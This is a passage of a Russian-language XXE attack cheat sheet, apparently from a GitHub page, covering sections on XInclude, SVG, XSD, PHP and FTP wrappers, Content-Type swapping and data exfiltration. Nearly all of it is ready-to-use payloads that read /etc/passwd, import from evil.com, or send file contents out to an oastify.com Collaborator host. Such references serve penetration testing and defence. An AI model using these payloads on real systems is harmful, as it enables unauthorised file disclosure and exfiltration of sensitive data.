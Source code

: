 - XInclude (XML Inclusions)
```
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

- Эксплуатация ошибок парсера. Некоторые парсеры (например, старые версии libxml2) имеют уязвимости, позволяющие читать файлы без DTD:
```
<?xml version="1.0"?>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="file:///etc/passwd"/>
</svg>
```

- Атаки через XML Schema (XSD)
```
<xs:schema xmlns:xs="http://www.w3.org/2001/XMLSchema">
  <xs:import schemaLocation="http://evil.com/malicious.xsd"/>
</xs:schema>
```

#### 4.6. Использование нестандартных протоколов

- PHP-обертки
```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
```

- FTP/GOPHER
```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "ftp://evil.com:21/file.txt">
]>
```

#### 4.7. Использование других форматов данных

- Подмена Content-Type
```
POST /api HTTP/1.1
Content-Type: application/json

{"data": "<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><foo>&xxe;</foo>"}
```


#### 4.8.  Эксфильтрация данных

**Через url**
```
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % exfiltrate "<!ENTITY &#x25; send SYSTEM 'http://xxx.oastify.com/?data=%file;'>">
  %exfiltrate;
]>
```
- Данные из /etc/passwd будут переданы в параметре data запроса к Collaborator.
